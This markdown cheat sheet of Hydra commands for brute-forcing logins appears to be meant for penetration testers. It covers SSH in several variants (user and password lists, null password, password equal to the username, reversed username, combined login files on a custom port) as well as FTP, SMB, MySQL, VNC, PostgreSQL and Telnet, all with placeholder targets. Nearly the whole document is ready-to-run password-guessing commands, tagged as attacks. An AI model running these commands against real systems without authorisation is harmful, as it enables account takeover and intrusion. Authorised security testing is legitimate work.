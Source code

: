 # Hydra

% bruteforce, access

## Hydra - SSH brute-force with user and password lists
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
hydra -L <userlist> -P <passlist> <ip> ssh
```

## Hydra - SSH brute-force with single user and password
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
hydra -l <user> -p <password> <ip> ssh
```

## Hydra - SSH brute-force with user=password
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -e s <ip> ssh
```

## Hydra - SSH brute-force with null password
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -l <user> -e n <ip> ssh
```

## Hydra - SSH brute-force with password=reverseuser
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -e r <ip> ssh
```

## Hydra - SSH brute-force with "login:pass" file and custom port
#plateform/linux #target/remote #protocol/ssh #port/custom #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -t 4 -s <port> -C <file_login_pass> <ip> ssh
```

## Hydra - FTP brute-force
#protocol/ftp #port/21 #plateform/linux #target/remote  #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> ftp
```

## Hydra - SMB brute-force
#protocol/smb #port/445 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> smb
```

## Hydra - MySQL brute-force
#protocol/mysql #port/3306 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> mysql
```

## Hydra - VNC brute-force
#protocol/vnc #port/5900 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> vnc
```

## Hydra - PostgreSQL brute-force
#protocol/postgres #port/5432 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> postgres
```

## Hydra - Telnet brute-force
#protocol/telnet #port/23 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> telnet
```

= userlist: users.txt
= passlist: pass.txt
